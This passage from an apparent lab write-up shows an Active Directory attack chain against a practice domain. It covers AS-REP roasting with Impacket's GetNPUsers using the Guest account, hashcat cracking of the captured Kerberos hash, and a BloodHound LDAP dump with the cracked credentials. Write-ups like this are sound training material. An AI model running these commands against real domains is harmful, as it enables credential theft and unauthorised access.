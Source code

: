 ```
Administrator
krbtgt
Guest
svc-web-accounting-d
svc-web-accounting
wayne.wood
julian.pratt
samuel.davies
```

Let's test for ASREProasting using Impacket's `GetNPUsers` tool. Essentially what this will do is check if the `NO_PREAUTH_REQUIRED` is set to the user's accounting. If this is set to a user account, we can essentially send an ASREQ to the KDC which will return an ASREP ticket that is encrypted with the users plaintext password.

We'll use the Guest account with no password to run this command.

```
└─$ proxychains4 impacket-GetNPUsers heron.vl/'Guest' -dc-ip 10.10.128.117 -no-pass -request -usersfile initial_ul.txt
......
[proxychains] Strict chain  ...  127.0.0.1:1081  ...  10.10.128.117:88  ...  OK
$krb5asrep$23$samuel.davies@HERON.VL:11082947e1ef[...snip...]e1316ef77fc294
```

As seen from above, a valid ASREP ticket was returned for the `samuel.davies` user. We can try to crack this using `hashcat` along with the specific hash ID (being 18200) as seen in the [hashcat wiki](https://hashcat.net/wiki/doku.php?id=example_hashes).

```
└─$ hashcat -a 0 -m 18200 samuel.davies.txt /usr/share/wordlists/rockyou.txt
......
a6b5c3a4a77676b6134c9302e03726ef67af6288c07a47e44072e62fb80bad6d758edeacacfea413637179588c6a110a65570e84e9a9cf843663bd66f851e193a13943e1316ef77fc294:[...snip...]

Session..........: hashcat
Status...........: Cracked
```

As seen from the above, we were able to successfully crack the password for `samuel.davies`. This opens up our attack path to a range of various options, notably dumping LDAP as my initial thought.

# Dumping LDAP

Let's now dump the domain with Bloodhound and the [Python ingestor](https://github.com/dirkjanm/BloodHound.py). We can examine any domain objects and also determine if `samuel.davies` has any privileges against other users. This should also increase our user list as you'll see shortly.

```
└─$ proxychains4 bloodhound-python -d 'heron.vl' -u 'samuel.davies' -p '(SAMUEL.DAVIES PASSWORD)' -c all -ns 10.10.128.117 --zip
......
INFO: Compressing output into 20240628004605_bloodhound.zip
```
